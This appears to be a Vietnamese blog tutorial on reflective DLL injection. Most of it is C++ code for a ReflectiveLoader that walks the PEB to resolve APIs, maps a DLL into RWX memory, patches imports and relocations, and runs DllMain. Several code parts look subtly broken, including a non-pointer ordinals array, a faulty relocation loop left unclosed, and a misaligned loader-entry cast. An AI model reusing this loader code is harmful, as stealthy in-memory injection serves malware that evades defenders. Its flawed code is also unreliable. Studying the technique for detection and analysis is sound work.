- RVA là địa chỉ tương đối trong bộ nhớ khi tệp PE được nạp vào RAM nó được tính từ Base Address(địa chỉ tải tệp PE trong bộ nhớ). Có công thức là:

VA = RVA + ImageBase


- Offset là vị trí dữ liệu trong file PE trên đĩa, tính bằng số byte từ đầu file.

Offset = RVA – VirtualAddress + PointerToRawData = (RVA - Section.VirtualAddress) + Section.PointerToRawData

Các giá tri cần thiết để tính nằm trong section table. Để chuyển đổi từ RVA sang Offset, ta duyệt xem RVA cần chuyển đổi nằm trong khoảng nào.

Mỗi section header trong PE có các thông tin quan trọng:

VirtualAddress -> RVA bắt đầu của section.
VirtualSize -> Kích thước section khi load vào memory.
SizeOfRawData -> kích thước section trong file.

Nếu VirtualAddress ≤ RVA < VirtualAddress + VirtualSize -> RVA thuộc section đó.



Chúng ta thực hiện việc này bằng cách duyệt qua cấu trúc 



Sau khi chuyển đổi RVA sang offset được. Chúng ta dùng tiếp cấu trúc ```IMAGE_EXPORT_DIRECTORY``` để lấy RVA của ReflectiveLoader được export.

Sau đó tiến hành trở tới export table. Duyệt theo trường NumberOfNames, lấy ra ordinal tương ứng, sau đó trả về RVA của hàm tương ứng bằng trường AddressOfFunctions tại vị trí tương ứng của ordinal.

Ví dụ 

Ví dụ DLL có export: 

```funcA``` (ordinal 1, RVA 0x1000)
```funcB``` (ordinal 2, RVA 0x1050)

Quy trình:
1. Duyệt AddressOfNames → tìm thấy "funcB".
2. Lấy ordinal của "funcB" từ AddressOfNameOrdinals → 2.
3. Dùng ordinal=2 để index vào AddressOfFunctions[2] → 0x1050.
4. Vậy funcB nằm ở RVA 0x1050.

```C++
// Chuyển đổi RVA sang Offset
// dwRVA: Relative Virtual Address cần chuyển đổi
// uiBaseAddress: địa chỉ cơ sở của PE file trong bộ nhớ
DWORD Rva2Offset(DWORD dwRVA, ULONG_PTR uiBaseAddress) {
	// Lấy con trỏ đến NT Headers của PE file	
	PIMAGE_NT_HEADERS pNTHeader = (PIMAGE_NT_HEADERS)(uiBaseAddress + ((PIMAGE_DOS_HEADER)uiBaseAddress)->e_lfanew);	
	// Lấy con trỏ đến Section Headers đầu tiên
	PIMAGE_SECTION_HEADER pSectionHeader = IMAGE_FIRST_SECTION(pNTHeader);
	// Duyệt qua tất cả các section để tìm section chứa RVA
	// pNTHeader->FileHeader.NumberOfSections: số lượng section trong PE file
	// pSectionHeader++ : di chuyển con trỏ đến section tiếp theo
	for (WORD i = 0; i < pNTHeader->FileHeader.NumberOfSections; i++, pSectionHeader++) {
		// Lấy Virtual Address và kích thước ảo của section	
		DWORD sectVA = pSectionHeader->VirtualAddress;
		DWORD sectSize = pSectionHeader->Misc.VirtualSize;
		// Kiểm tra xem RVA có nằm trong phạm vi của section không
		if (dwRVA >= sectVA && dwRVA < (sectVA + sectSize)) {
			// Tính toán và trả về Offset tương ứng
			return dwRVA - sectVA + pSectionHeader->PointerToRawData;
		}
	}
	return 0;
}

// Lấy offset của hàm ReflectiveLoader trong DLL được nạp vào bộ nhớ
// Hàm nhận vào con trỏ đến buffer chứa DLL
DWORD GetReflectiveLoaderOffset(LPVOID lpReflectiveDllBuffer) {
	ULONG_PTR uiBaseAddress = (ULONG_PTR)lpReflectiveDllBuffer; // Địa chỉ cơ sở của DLL trong bộ nhớ
	PIMAGE_NT_HEADERS pNTHeader = (PIMAGE_NT_HEADERS)(uiBaseAddress + ((PIMAGE_DOS_HEADER)uiBaseAddress)->e_lfanew); // Con trỏ đến NT Headers của DLL
	DWORD exportRVA = pNTHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress; // Lấy RVA của Export Directory
	ULONG_PTR uiExportDir = uiBaseAddress + Rva2Offset(exportRVA, uiBaseAddress); // Địa chỉ của Export Directory trong bộ nhớ	
	PIMAGE_EXPORT_DIRECTORY pExportDir = (PIMAGE_EXPORT_DIRECTORY)uiExportDir; // Con trỏ đến Export Directory
	DWORD* nameArray = (DWORD*)(uiBaseAddress + Rva2Offset(pExportDir->AddressOfNames, uiBaseAddress));
	DWORD* funcArray = (DWORD*)(uiBaseAddress + Rva2Offset(pExportDir->AddressOfFunctions, uiBaseAddress));
	WORD ordinalsArray = (WORD)(uiBaseAddress + Rva2Offset(pExportDir->AddressOfNameOrdinals, uiBaseAddress));	
	
	DWORD numberOfNames = pExportDir->NumberOfNames; // Số lượng hàm được xuất trong DLL	
	// Duyệt qua tất cả các hàm được xuất để tìm hàm ReflectiveLoader
	for (DWORD i = 0; i < numberOfNames; i++) {
		// Lấy tên hàm hiện tại
		char* funcName = (char*)(uiBaseAddress + Rva2Offset(nameArray[i], uiBaseAddress));
		// So sánh tên hàm với "ReflectiveLoader"
		if (strcmp(funcName, "ReflectiveLoader") == 0) {
			// Nếu tìm thấy, trả về Offset của hàm ReflectiveLoader
			return Rva2Offset(funcArray[ordinalsArray[i]], uiBaseAddress);
		}	
	}
	return 0;
}
```

### Quy trình Reflective Loader

ReflectiveLoader có nhiệm vụ nạp DLL sau khi được tiêm vào bộ nhớ của tiến trình đích. ReflectiveLoader thực hiện mọi thứ một cách thủ công, tự xử lý các PE Header, copy các section, phân giải IAT(Import Address Table), áp dụng relocation trước khi gọi DLLMain. 

ReflectiveLoader nội dung sẽ không được bao gồm các hàm hay hằng, nên ban đầu nó không thể truy xuất đến reloc table (Relocation) hay IAT nên nó chính là shellcode các hàm cần phải resolve thủ công.

#### 1. Tìm base address

- Bước đầu tiên của ReflectiveLoader là xác định ```base address``` của chính DLL đang được nạp. 

- Bắt đầu từ một địa chỉ bất kì trong module (thường là return address từ caller)

- Duyệt ngược lại cho đến khi tìm thấy DOS signature sau đó kiểm tra trường ```e_lfanew``` để lấy vị trí NT Header địa chỉ này chính là ```base address``` cần tìm.


```C++
// Lấy địa chỉ trả về của hàm ReflectiveLoader
// Vì code này đang chạy trong DLL nên địa chỉ trả về sẽ nằm trong vùng nhớ của DLL
// Đây sẽ là điểm xuất phát để quét ngược tìm base address của DLL
uiLibraryAddress = (ULONG_PTR)_ReturnAddress(); 

while (TRUE) {
	// Kiểm tra e_magic = IMAGE_DOS_SIGNATURE (0x5A4D)
	if (((PIMAGE_DOS_HEADER)uiLibraryAddress)->e_magic == IMAGE_DOS_SIGNATURE) {
		// Lấy offset e_lfanew (nằm trong DOS header)
		// Đây là offset tới NT header	
		uiHeaderValue = ((PIMAGE_DOS_HEADER)uiLibraryAddress)->e_lfanew;
		if (uiHeaderValue >= sizeof(IMAGE_DOS_HEADER) && uiHeaderValue < 1024) {
			// Cộng offset e_lfanew vào base address tạm thời để lấy NT header	
			uiHeaderValue += uiLibraryAddress;
			if (((PIMAGE_NT_HEADERS)uiHeaderValue)->Signature == IMAGE_NT_SIGNATURE) {
				// Nếu đúng thì ta đã tìm được base address của DLL
				break;
			}
		}
	}
	// Giảm địa chỉ base address tạm thời và quét tiếp
	uiLibraryAddress--;
}
```

### 2. Resolve API

Vì không dựa được vào IAT chúng ta sẽ phải tự đi tìm lại địa chỉ của các hàm API.
Bằng cách thông qua các cấu trúc TEB sau đó truy cập tiếp cấu trúc PEB tiếp đến truy cập đến trường Ldr có cấu trúc PEB_LDR_DATA. Trường này chứa thông tin các DLL đã được nạp trong bộ nhớ. Trỏ đến InMemoryOrderModuleList trong PEB_LDR_DATA chứa danh sách liên kết của cấu trúc thông tin các DLL được khai báo.


```C++
ULONG_PTR uiBaseAddress = __readgsqword(0x60); // Lấy PEB của tiến trình hiện tại
// Ép kiểu uiBaseAddress về kiểu PEB tryu cập vào Ldr
// Rồi lấy địa chỉ của InMemoryOrderModuleList (LIST_ENTRY)  - danh sách các module đang được nạp trong tiến trình
LIST_ENTRY* moduleList = &((PEB*)(uiBaseAddress))->Ldr->InMemoryOrderModuleList; 
// Lấy con trỏ tới phần tử kế (Flink) của list head - con trỏ này tới phần tử đầu tiên trong danh sách
LIST_ENTRY* ptr = moduleList->Flink;
```

Từ đó chúng ta cấu trúc trên tiến hành lấy ra base address của kernel32.dll và ntdll.dll từ trường DLLBase trong trương trình.

```C++
typedef struct _LDR_DATA_TABLE_ENTRY {
	PVOID Reserved1[2];
	LIST_ENTRY InMemoryOrderLinks;
	PVOID Reserved2[2];
	PVOID DllBase;
	PVOID EntryPoint;
	PVOID Reserved3;
	UNICODE_STRING FullDllName;
	BYTE Reserved4[8];
	PVOID Reserved5[3];
	union {
		ULONG CheckSum;
		PVOID Reserved6;
	};
	ULONG TimeDateStamp;
} LDR_DATA_TABLE_ENTRY, * PLDR_DATA_TABLE_ENTRY;
HMODULE uiModuleBaseKernel32 = NULL, uiModuleBaseNtdll = NULL;
// Duyệt danh sách các module đang được nạp
while (ptr != moduleList && (uiModuleBaseKernel32 == NULL || uiModuleBaseNtdll == NULL))
{
	LDR_DATA_TABLE_ENTRY* module = (LDR_DATA_TABLE_ENTRY*)ptr;  // Ép kiểu ptr thành LDR_DATA_TABLE_ENTRY để truy cập thông tin module
	wchar_t* moduleName = module->FullDllName.Buffer; // Lấy con trỏ chuỗi tên đầy đủ của module
	if (moduleName && moduleName[0] == 'K' && moduleName[1] == 'E' && moduleName[2] == 'R' && moduleName[3] == 'N' &&
		moduleName[4] == 'E' && moduleName[5] == 'L' && moduleName[6] == '3' && moduleName[7] == '2' &&
		moduleName[8] == '.' && moduleName[9] == 'D' && moduleName[10] == 'L' && moduleName[11] == 'L')
		uiModuleBaseKernel32 = (HMODULE)(module->DllBase); // Lưu địa chỉ base của kernel32.dll
	else if (moduleName && moduleName[0] == 'n' && moduleName[1] == 't' && moduleName[2] == 'd' && moduleName[3] == 'l' &&
		moduleName[4] == 'l' && moduleName[5] == '.' && moduleName[6] == 'd' && moduleName[7] == 'l' && moduleName[8] == 'l')
		uiModuleBaseNtdll = (HMODULE)(module->DllBase); // Lưu địa chỉ base của ntdll.dll
	ptr = ptr->Flink;  // Di chuyển sang phần tử tiếp theo trong danh sách
}
```

Sau khi lấy được base address, ta truy cập tới export table trong PE Header để lấy danh sách các tên hàm, tìm địa chỉ của các hàm.

```C++
while (!ptrVirtualAlloc || !ptrGetProcAddress || !ptrLoadLibraryA) 
{
	IMAGE_DOS_HEADER* dosHeader = (IMAGE_DOS_HEADER*)uiModuleBaseKernel32; // Lấy DOS header của kernel32.dll
	IMAGE_NT_HEADERS* ntHeaders = (IMAGE_NT_HEADERS*)((BYTE*)uiModuleBaseKernel32 + dosHeader->e_lfanew); // Lấy NT header của kernel32.dll
	IMAGE_EXPORT_DIRECTORY* exportDirectory = (IMAGE_EXPORT_DIRECTORY*)((BYTE*)uiModuleBaseKernel32 + 
		ntHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress); // Lấy Export directory của kernel32.dll

	DWORD* nameArray = (DWORD*)((BYTE*)uiModuleBaseKernel32 + exportDirectory->AddressOfNames); // Mảng con trỏ tên hàm
	WORD* ordinalArray = (WORD*)((BYTE*)uiModuleBaseKernel32 + exportDirectory->AddressOfNameOrdinals); // Mảng chỉ số hàm
	DWORD* funcArray = (DWORD*)((BYTE*)uiModuleBaseKernel32 + exportDirectory->AddressOfFunctions); // Mảng con trỏ hàm

	for (DWORD i = 0; i < exportDirectory->NumberOfNames; ++i)
	{
		char* funcName = (char*)((BYTE*)uiModuleBaseKernel32 + nameArray[i]); // Lấy tên hàm thứ i

		if (!ptrVirtualAlloc && funcName[0] == 'V' && funcName[1] == 'i' && funcName[2] == 'r' && funcName[3] == 't' && 
			funcName[4] == 'u' && funcName[5] == 'a' && funcName[6] == 'l' && funcName[7] == 'A' &&
			funcName[8] == 'l' && funcName[9] == 'l' && funcName[10] == 'o' && funcName[11] == 'c')
			ptrVirtualAlloc = (pVirtualAlloc)((FARPROC)((BYTE*)uiModuleBaseKernel32 + funcArray[ordinalArray[i]])); // Lấy địa chỉ hàm VirtualAlloc

		else if (!ptrGetProcAddress && funcName[0] == 'G' && funcName[1] == 'e' && funcName[2] == 't' &&
			funcName[3] == 'P' && funcName[4] == 'r' && funcName[5] == 'o' && funcName[6] == 'c' &&
			funcName[7] == 'A' && funcName[8] == 'd' && funcName[9] == 'd' && funcName[10] == 'r' &&
			funcName[11] == 'e' && funcName[12] == 's' && funcName[13] == 's')
			ptrGetProcAddress = (pGetProcAddress)((FARPROC)((BYTE*)uiModuleBaseKernel32 + funcArray[ordinalArray[i]])); // Lấy địa chỉ hàm GetProcAddress

		else if (!ptrLoadLibraryA && funcName[0] == 'L' && funcName[1] == 'o' && funcName[2] == 'a' &&
			funcName[3] == 'd' && funcName[4] == 'L' && funcName[5] == 'i' && funcName[6] == 'b' &&
			funcName[7] == 'r' && funcName[8] == 'a' && funcName[9] == 'r' && funcName[10] == 'y' && funcName[11] == 'A') 
			ptrLoadLibraryA = (pLoadLibraryA)((FARPROC)((BYTE*)uiModuleBaseKernel32 + funcArray[ordinalArray[i]])); // Lấy địa chỉ hàm LoadLibraryA
	}
}
```

### 3. Cấp phát bộ nhớ và ánh xạ nội dung DLL.

- Bước 1: Gọi ```VirtualAlloc``` để cấp phát phân vùng chứa toàn bộ DLL với đủ quyền đọc/ghi/thực thi.

```C++
// Tiến hành cấp phát vùng nhớ cho DLL
uiHeaderValue = uiLibraryAddress + ((PIMAGE_DOS_HEADER)uiLibraryAddress)->e_lfanew;
uiBaseAddress = (ULONG_PTR)ptrVirtualAlloc(
	NULL,                                           
	((PIMAGE_NT_HEADERS)uiHeaderValue)->OptionalHeader.SizeOfImage, 
	MEM_RESERVE | MEM_COMMIT,                              
	PAGE_EXECUTE_READWRITE                                  
);
```

- Bước 2: Sao chép toàn bộ PE Header vào vùng nhớ vừa cấp.

```C++
// Copy các header của DLL vào vùng nhớ mới cấp phát
ULONG_PTR uiSizeOfHeaders = ((PIMAGE_NT_HEADERS)uiHeaderValue)->OptionalHeader.SizeOfHeaders; // Kích thước các header
ULONG_PTR uiCurPtrToRawDll = uiLibraryAddress; // Con trỏ tới vùng nhớ hiện tại của DLL
ULONG_PTR uiNewPtrOfDll = uiBaseAddress; // Con trỏ tới vùng nhớ mới cấp phát cho DLL
while (uiSizeOfHeaders--)
	*(BYTE*)uiNewPtrOfDll++ = *(BYTE*)uiCurPtrToRawDll++; // Copy từng byte
```

- Bước 3: Lặp qua từng section, sao chép dữ liệu đúng địa chỉ ảo (```VirtualAddress```) trong vùng nhớ. Mục đích nhằm bỏ qua 1 khoảng byte null tương ứng với việc padding cho khớp section alignment.

```C++
uiCurPtrToRawDll = ((ULONG_PTR) & ((PIMAGE_NT_HEADERS)uiHeaderValue)->OptionalHeader + 
	((PIMAGE_NT_HEADERS)uiHeaderValue)->FileHeader.SizeOfOptionalHeader); // Con trỏ tới section header đầu tiên

WORD uiNumberOfSections = ((PIMAGE_NT_HEADERS)uiHeaderValue)->FileHeader.NumberOfSections; // Số section
while (uiNumberOfSections--) 
{
	ULONG_PTR curPtrToVAddOfSection = (uiBaseAddress +
		((PIMAGE_SECTION_HEADER)uiCurPtrToRawDll)->VirtualAddress); // Địa chỉ ảo của section hiện tại
	ULONG_PTR sectionRawData = uiLibraryAddress +
		((PIMAGE_SECTION_HEADER)uiCurPtrToRawDll)->PointerToRawData; // Địa chỉ dữ liệu thô của section hiện tại
	ULONG_PTR sizeOfCurSection = ((PIMAGE_SECTION_HEADER)uiCurPtrToRawDll)->SizeOfRawData; // Kích thước dữ liệu thô của section hiện tại

	while (sizeOfCurSection--)
	{
		*(BYTE*)curPtrToVAddOfSection++ = *(BYTE*)sectionRawData++; // Copy từng byte của section hiện tại
	}
	uiCurPtrToRawDll += sizeof(IMAGE_SECTION_HEADER); // Di chuyển con trỏ tới section header tiếp theo
}
```

### 4. Phân giải IAT

- Lấy địa chỉ ```IMAGE_IMPORT_DESCRIPTOR``` từ Import Directory trong PE Header.
- Với mỗi DLL trong Import Table, gọi LoadLibraryA() để nạp DLL cần thiết.
- Với mỗi hàm trong DLL đó, gọi GetProcAddress() để lấy địa chỉ.
- Ghi trực tiếp địa chỉ API vừa tìm được vào IAT.

```C++
PIMAGE_IMPORT_DESCRIPTOR pImportDescriptor =
	(PIMAGE_IMPORT_DESCRIPTOR)(uiBaseAddress +
		((PIMAGE_NT_HEADERS)uiHeaderValue)->
		OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT].VirtualAddress); // Lấy con trỏ tới Import Directory

while (pImportDescriptor->Name)  // Duyệt qua từng IMAGE_IMPORT_DESCRIPTOR
{
	HMODULE hModule = ptrLoadLibraryA((LPCSTR)(uiBaseAddress + pImportDescriptor->Name)); // Load thư viện được import
	PIMAGE_THUNK_DATA pThunk = (PIMAGE_THUNK_DATA)(uiBaseAddress + pImportDescriptor->FirstThunk); // Lấy con trỏ tới First Thunk

	while (pThunk->u1.AddressOfData) // Duyệt qua từng IMAGE_THUNK_DATA
	{
		PIMAGE_IMPORT_BY_NAME pImportByName = (PIMAGE_IMPORT_BY_NAME)(uiBaseAddress + pThunk->u1.AddressOfData); // Lấy con trỏ tới IMAGE_IMPORT_BY_NAME
		FARPROC pFunc = ptrGetProcAddress(hModule, (LPCSTR)(pImportByName->Name)); // Lấy địa chỉ hàm được import
		if (pFunc)
		{
			pThunk->u1.Function = (ULONGLONG)pFunc; // Ghi đè địa chỉ hàm vào First Thunk
		}
		pThunk++;
	}
	pImportDescriptor++;
}
```

### 5. Relocation

Relocation Table chứa danh sách địa chỉ trong DLL cần chỉnh sửa nếu DLL không được load đúng tại địa chỉ mặc định (ImageBase). Khi DLL được load ở base address mới, giá trị này được relocation theo công thức:

```
NewVirtualAddress = OldVirtualAddress + (NewImageBase − PreferredBase)
```

Cách làm:
- Lấy Base Relocation Table trong PE header.
- Duyệt qua từng block relocation.
- Với mỗi entry, kiểm tra kiểu (IMAGE_REL_BASED_DIR64, HIGHLOW, HIGH, LOW).
- Chỉnh sửa địa chỉ tương ứng bằng chênh lệch giữa uiBaseAddress và ImageBase gốc.

```C++
PIMAGE_DATA_DIRECTORY baseRelocAddress =
	(PIMAGE_DATA_DIRECTORY) & ((PIMAGE_NT_HEADERS)uiHeaderValue)->
	OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC]; // Lấy con trỏ tới Base Relocation Table

if (baseRelocAddress->Size) // Nếu có Base Relocation Table
{
	PIMAGE_BASE_RELOCATION vaBaseRelocTable =
		(PIMAGE_BASE_RELOCATION)(uiBaseAddress + baseRelocAddress->
			VirtualAddress); // Lấy con trỏ tới Base Relocation Table
	while (vaBaseRelocTable->SizeOfBlock)  // Duyệt qua từng block của Base Relocation Table
	{
		ULONG_PTR vaCurRelocBlock = uiBaseAddress + 
			vaBaseRelocTable->VirtualAddress; // Địa chỉ ảo của block hiện tại

		PIMAGE_RELOCATION RelocBlock =
			(PIMAGE_RELOCATION)((ULONG_PTR)vaBaseRelocTable +
				sizeof(IMAGE_BASE_RELOCATION)); // Lấy con trỏ tới IMAGE_RELOC đầu tiên trong block hiện tại

		for (DWORD i = 0; i < vaBaseRelocTable->SizeOfBlock - 
			sizeof(IMAGE_BASE_RELOCATION) / sizeof(DWORD); i++) // Duyệt qua từng IMAGE_RELOC trong block hiện tại
		{
			if (RelocBlock->Type == IMAGE_REL_BASED_DIR64) 
				*(ULONG_PTR*)(vaCurRelocBlock + RelocBlock->
					VirtualAddress) += uiBaseAddress -
				((PIMAGE_NT_HEADERS)uiHeaderValue)->OptionalHeader.ImageBase; // Cập nhật địa chỉ mới

			else if (RelocBlock->Type ==
				IMAGE_REL_BASED_HIGHLOW)
				*(ULONG_PTR*)(vaCurRelocBlock + RelocBlock->
					VirtualAddress) += uiBaseAddress -
				((PIMAGE_NT_HEADERS)uiHeaderValue)->OptionalHeader.ImageBase; // Cập nhật địa chỉ mới

			else if (RelocBlock->Type == IMAGE_REL_BASED_HIGH)
				*(ULONG_PTR*)(vaCurRelocBlock + RelocBlock->
					VirtualAddress) += uiBaseAddress -
				((PIMAGE_NT_HEADERS)uiHeaderValue)->OptionalHeader.ImageBase; // Cập nhật địa chỉ mới

			else if (RelocBlock->Type == IMAGE_REL_BASED_LOW)
				*(ULONG_PTR*)(vaCurRelocBlock + RelocBlock->
					VirtualAddress) += uiBaseAddress -
				((PIMAGE_NT_HEADERS)uiHeaderValue)->OptionalHeader.ImageBase; // Cập nhật địa chỉ mới

			RelocBlock += 1; // Di chuyển tới IMAGE_RELOC tiếp theo
		}
		vaBaseRelocTable = vaBaseRelocTable + vaBaseRelocTable->SizeOfBlock; // Di chuyển tới block tiếp theo 
```

### 6. Thực thi DllMain
Sau khi nạp DLL, cần thực thi DllMain tại địa chỉ entry point. Địa chỉ này lấy từ trường AddressOfEntryPoint trong OptionalHeader.

Trước khi gọi DllMain, phải gọi NtFlushInstructionCache để đồng bộ hóa cache CPU với bộ nhớ, đảm bảo các thay đổi trong vùng bộ nhớ thực thi được cập nhật đầy đủ.

```C++
ULONG_PTR dllMain = uiBaseAddress + ((PIMAGE_NT_HEADERS) // Tính địa chỉ entry point của DLL
	uiHeaderValue)->OptionalHeader.AddressOfEntryPoint; 
((DLLMAIN)dllMain)((HINSTANCE)uiBaseAddress, // Gọi hàm DllMain với hInstance là địa chỉ base mới của DLL
	DLL_PROCESS_ATTACH, NULL);
```

